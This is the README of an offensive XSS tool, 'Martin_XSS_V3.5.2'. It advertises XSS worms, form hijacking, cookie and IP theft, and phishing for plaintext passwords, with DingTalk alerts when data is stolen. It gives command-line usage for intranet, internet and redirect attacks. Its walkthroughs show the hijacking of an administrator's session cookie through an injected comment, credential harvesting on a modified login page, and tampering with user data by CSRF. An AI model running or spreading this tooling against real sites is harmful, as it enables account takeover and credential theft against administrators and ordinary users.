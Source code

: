 # Martin_XSS_V3.5.2
* Update redirection module,You can make XSS worms
* Update Form Hijacking
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Social engineering, obtaining account password
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.5.2.py -h```

  ![图片名称](./Demo_image/help3.5.2.png)  

  * Intranet attack

      ```#python3 XSS_Tool_V3.5.2.py (-lp xxxx)```

![图片名称](./Demo_image/NoPar3.5.2.png )  

![图片名称](./Demo_image/lp3.5.2.png )  


  * Internet attack

    ```#python3 XSS_Tool_V3.5.2.py -t -rh [Remote host IP] (-rp Remote host port)```

![图片名称](./Demo_image/rh23.5.2.png )  

* Redirect attack

```#python3 XSS_Tool_V3.5.2.py -rd xxxxx```

 ![图片名称](./Demo_image/rd3.5.2.png )  
* Push Message
1. 
    
```#vim DingTalk.conf```

![图片名称](./Demo_image/dcf13.5.2.png )  

```#python3 XSS_Tool_V3.5.2.py -dcf```
 ![图片名称](./Demo_image/dcf23.5.2.png )  

2. 
    ```#python3 XSS_Tool_V3.5.2.py -dt xxx -dk xxx```

 ![图片名称](./Demo_image/dtdk3.5.2.png ) 

# Use Intranet attack [Example: push message module combination]
 * _If your machine has a public IP address, just listen to the local port_
 * _You can not specify the port. The default port is 8888_
 
-----------------Hacker--------------------------

```#vim DingTalk.conf```

![图片名称](./Demo_image/dcf13.5.2.png)

```#python3 XSS_Tool_V3.5.2.py -dcf```

![图片名称](./Demo_image/WP1.png)  

* Copy payload and inject XXS injection point



----------------Server Admin------------------------
* Admin Cookie

![图片名称](./Demo_image/Admin_no_hack.png )  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/WP2.png )  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/WP3.png)
* Auto Push Message

![图片名称](./Demo_image/WP4.jpg)

# Use Internet attack [Example:Social engineering]
* Modify code

```vim Index.html```

![图片名称](./Demo_image/rhhijack3.5.2.png )  

* The victim visits the phishing link

![图片名称](./Demo_image/loginrhhijack3.5.2.png)

* Wait for submission. The hacker obtains the plaintext account password

![图片名称](./Demo_image/rhhijackOK3.5.2.png)


# Use Intranet attack [Example:Redirection+CSRF]

* Normal user
![图片名称](./Demo_image/CSRF1.png)
* Hacker inject code into web pages
![图片名称](./Demo_image/CSRF2.png)
* User data is maliciously modified
![图片名称](./Demo_image/CSRF3.png)